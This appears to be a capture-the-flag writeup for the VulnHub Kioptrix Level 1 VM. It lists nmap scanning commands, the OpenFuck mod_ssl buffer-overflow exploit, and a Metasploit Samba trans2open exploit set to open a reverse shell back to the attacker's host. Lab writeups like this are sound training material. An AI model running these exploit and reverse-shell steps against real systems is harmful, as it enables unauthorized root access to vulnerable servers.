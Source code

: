# writeup kioptrix level 1
  This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.
  
# Download vm-machine from vulnhub website:
link: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ .

# Solution:
  [+] At the beginning, we need to perform ping sweep to discover network devices that alive. <br>
    command: 
    <code>sudo nmap -sn 192.168.1.0/24 </code> <br><br>
   <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/ping_sweep.png"/>
   <br><br>
   
  [+] After finding target IP, we need to perform port scan and banner graabbing over TCP through nmap. <br>
    command: <code>sudo nmap -sS -sV -O 192.168.1.104 -p-</code> <br><br>
    <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/nmap_portscan_banner_grabbing.png"/>
    <br><br>
    
  [+] Now, we can performing vulnerability assessment through doing search about vulnerabilities that can be found according to protocols versions.  <br>
    that depend on your search skill :D. <br>
    i found some vulneravilities:- <br>
     -- [1] buffer-over Apache mod_ssl < 2.8.7 OpenSSL <br>
     -- [1] download openfuck script from: <br>
     -- [1] link: <a href="https://www.exploit-db.com/exploits/764/">exploit</a> <br>
     -- [1] or here: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/openfuck.c"> Github </a> <br>
     -- [1] or modified script: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/openfuck_modified.c ">Modifeid script:Github</a><br>
     -- [1] you can download the exploit script to using it.<br>
     -- [1] command: <code>./OpenFuck 0x6b 192.168.1.106</code> <br>
     <pre>
     -- [1] note: if any problem occur during running of the script, you will find some solution here. <br>
     -- [1] link: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/install_openfuck.md "> follow this instructions</a> <br>
     </pre>
      -- [1] POC: <br>
     <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/overflow.png"/>
    <br><br>
      -- [2] samba: <br>
      -- [2] enumeration commands: <br>
          <code> enum4linux 192.168.1.104 </code> <br>
      -- [2] detected samba version: <br>
          <code> msfconsole </code> <br>
          <code> msf > search smb_version </code> <br>
          <code> msf > use auxiliary/scanner/smb/smb_version </code> <br>
          <code> msf auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.104 </code> <br>
          <code> msf auxiliary(scanner/smb/smb_version) > exploit  </code> <br>
          <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/samba_version.png"/>
      -- [2] samba 2.2.1a is vulnerable <br>
          command:
            <code> msf > search samba  </code> <br>
            <code> msf > use exploit/linux/samba/trans2open  </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RHOST 192.168.1.104 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RPORT 139 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RPORT 139 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set LHOST 192.168.1.105 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set LPORT 4444 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > exploit </code> <br>
      -- [2] POC:
            <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/samba_overflow.png"/>
      <pre>we are do the best to keep it up-to-date and adding more vulnerabilities if we found it at this machine.
      Best wishes,,</pre>
